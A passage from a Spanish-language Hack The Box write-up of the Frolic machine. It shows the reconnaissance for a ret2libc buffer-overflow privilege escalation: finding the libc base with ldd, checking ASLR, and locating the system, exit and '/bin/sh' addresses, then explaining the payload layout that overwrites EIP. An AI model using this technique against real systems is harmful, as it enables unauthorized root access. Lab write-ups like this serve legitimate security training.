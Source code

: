 
como hacemos eso? desde la máquina victima hacemos lo siguiente

```bash
ldd /home/ayush/.binary/rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
       /lib/ld-linux.so.2 (0xb7fdb000)
```
{: .nolineno}

esto nos muestra la libreria que usa para ejecutar el binario, y es la que necesitamos para encontrar
las otras direcciones, pero antes de buscar las otras direcciones quiero ver si esta dirección en memoria 
es aleatoria o es fija, y eso debende del valor de un archivo en la máquina víctima

![](htb-writeup-frolic/escalada10.png)

como el valor es `0` las direcciones no van a cambiar, listo sigamos

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
       141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
       1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```
{: .nolineno}

y la de `/bin/sh`

```
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
       15ba0b /bin/sh
```
{: .nolineno}


listo, tenemos todo lo necesario

las direcciones que encontramos tenemos que ponerla en `little-endian` es decir el orden invertido, como vamos a hacer
un script en python y usar una librería que haga eso por nosotros, nos despreocupamos

dato importante cuando hagamos el

system + exit + sh

en realidad tiene que ser

`libc_addr + system + libc_addr + exit + libc_addr + sh`

siempre es la dirección de la libreria sumado de la dirección que queremos,
nos falta algo importante y es cuantos caracteres `basura` debo poner antes de sobre escribir el registro que me
interesa es el `eip` que es el que apunta a la siguiente instrucción a ejecutar, y donde vamos a poner todas
esas direcciones que acabamos de averiguar.

eso lo hacemo con `gdb`
